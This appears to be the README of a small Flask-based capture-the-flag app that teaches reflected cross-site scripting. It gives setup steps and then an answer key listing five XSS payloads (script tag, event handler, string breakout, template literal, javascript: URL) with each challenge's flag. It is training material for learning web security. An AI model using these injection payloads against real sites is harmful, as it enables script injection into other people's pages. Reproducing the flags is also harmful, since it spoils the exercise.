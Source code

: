 #Hello, Friend!

Introducing...

# Le Bean

A warm and wholesome reflected XSS fun for the whole family!

## How?

Yes, yes. I'm getting there.

```
python3 -m venv venv/
source venv/bin/activate
pip3 install -r lebean/requirements.txt
cd lebean/
flask run
```

Open `http://localhost:5000` in browser, and have fun!

## Solutions

### Challenge 1

Solution: `<script>alert(1)</script>`

Flag: `flag{ezpz_xss_squeezy}`

### Challenge 2

Solution: `" onfocus="alert(1)` (or some other event)

Flag: `flag{xss_on_event_fun_fun}`

### Challenge 3

Solution: `'); alert(1); //`

Flag: `flag{xss_sneaky_clever_fren}`

### Challenge 4

Solution: `${alert(1)}`

Flag: `flag{xss_templeet_string}`

### Challenge 5

Solution: `javascript:alert(1)`

Flag: `flag{iframe_shenanigans_xss}`

## Docker

Wow look at you, using docker. Smart friend, you are. ;)

```
docker build -t lebean .
docker run -p 5000:5000 lebean
```

Have fun, friends!

